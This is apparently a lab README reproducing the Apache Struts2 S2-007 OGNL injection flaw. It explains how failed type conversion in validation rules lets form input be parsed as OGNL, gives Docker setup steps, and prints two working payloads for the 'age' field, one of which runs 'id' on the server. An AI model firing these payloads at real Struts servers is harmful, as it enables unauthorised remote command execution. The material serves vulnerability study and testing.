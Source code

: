 # S2-007 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Version: 2.0.0 - 2.2.3

Details: http://struts.apache.org/docs/s2-007.html

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

When `<ActionName> -validation.xml` configured validation rules. If the type validation conversion fails, the server will splice the user-submitted form value strings, then performing an OGNL expression parsing and returning. 

For example here is a `UserAction`:

```java
(...)
public class UserAction extends ActionSupport {
	private Integer age;
	private String name;
	private String email;

(...)
```

And `UserAction-validation.xml` configuration:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
	"-//OpenSymphony Group//XWork Validator 1.0//EN"
	"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
	<field name="age">
		<field-validator type="int">
			<param name="min">1</param>
			<param name="max">150</param>
		</field-validator>
	</field>
</validators>
```

When the user submits `age` as a `str` instead of an `int`, the server splices `"'" + value + "'"` with the code and then use the OGNL expression parse it. To make a successful expliot, we need find a form field configured with similar validation rules to make a conversion error. And then you can inject any OGNL expression code by the way just like SQL single quotes injected.

Payload which bypass the securely configured:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Setup

```
docker-compose build
docker-compose up -d
```


## Exploit

Here is the EXP that can execute arbitrary code:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

Put EXP into the input box (age), then get the command execution result:

![](1.jpeg)